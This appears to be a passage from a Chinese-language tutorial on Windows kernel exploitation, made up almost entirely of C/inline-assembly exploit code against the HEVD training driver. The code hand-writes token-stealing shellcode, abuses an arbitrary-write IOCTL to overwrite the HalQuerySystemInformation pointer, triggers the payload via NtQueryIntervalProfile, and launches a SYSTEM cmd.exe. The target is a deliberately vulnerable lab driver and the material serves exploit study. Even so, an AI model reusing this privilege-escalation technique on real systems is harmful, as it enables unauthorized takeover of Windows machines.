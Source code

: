 ```
        mov dword ptr[edi + 0x15], 0x90901189;
        mov dword ptr[edi + 0x19], 0x8B64C031;
        mov dword ptr[edi + 0x1D], 0x00012480;
        mov dword ptr[edi + 0x21], 0x50408B00;
        mov dword ptr[edi + 0x25], 0x04BAC189;
        mov dword ptr[edi + 0x29], 0x8B000000;
        mov dword ptr[edi + 0x2D], 0x0000B880;
        mov dword ptr[edi + 0x31], 0x00B82D00;
        mov dword ptr[edi + 0x35], 0x90390000;
        mov dword ptr[edi + 0x39], 0x000000B4;
        mov dword ptr[edi + 0x3D], 0x908BED75;
        mov dword ptr[edi + 0x41], 0x000000F8;
        mov dword ptr[edi + 0x45], 0x00F89189;
        mov dword ptr[edi + 0x49], 0x31610000;
        mov dword ptr[edi + 0x4D], 0x0000C3C0;
        mov dword ptr[edi + 0x51], eax;
        mov dword ptr[edi + 0x55], ebx;
        popad;
    }
    PULONG_PTR* PShellcode = (PULONG_PTR*)&SC;
    PWRITE_WHAT_WHERE Buffer;
    Buffer = (WRITE_WHAT_WHERE*)malloc(sizeof(WRITE_WHAT_WHERE));
    ZeroMemory(Buffer, sizeof(WRITE_WHAT_WHERE));
    Buffer->Where = (PULONG_PTR)HalQuerySystemInformation_Address;
    Buffer->What = (PULONG_PTR)PShellcode;
    DWORD size_returned = 0;
    BOOL is_ok = DeviceIoControl(hFile, HEVD_IOCTL_ARBITRARY_WRITE, Buffer, sizeof(WRITE_WHAT_WHERE), NULL, 0, &size_returned, NULL);
 
    PNtQueryIntervalProfile NtQueryIntervalProfile = (PNtQueryIntervalProfile)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtQueryIntervalProfile");
    if (!NtQueryIntervalProfile) {
        cout << "[!] Failed to Get the Address of NtQueryIntervalProfile." << endl;
        cout << "[!] Last error " << GetLastError() << endl;
        exit(1);
    }
    NtQueryIntervalProfile(ProfileTotalIssues, (ULONG*)SC);
 
    PROCESS_INFORMATION ProcessInformation;
    ZeroMemory(&ProcessInformation, sizeof(ProcessInformation));
    STARTUPINFOA StartupInfo;
    ZeroMemory(&StartupInfo, sizeof(StartupInfo));
    CreateProcessA("C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, 0, CREATE_NEW_CONSOLE, NULL, NULL, &StartupInfo, &ProcessInformation);
 
    VirtualFree(SC, 0, MEM_RELEASE);
} 
```

效果如下：
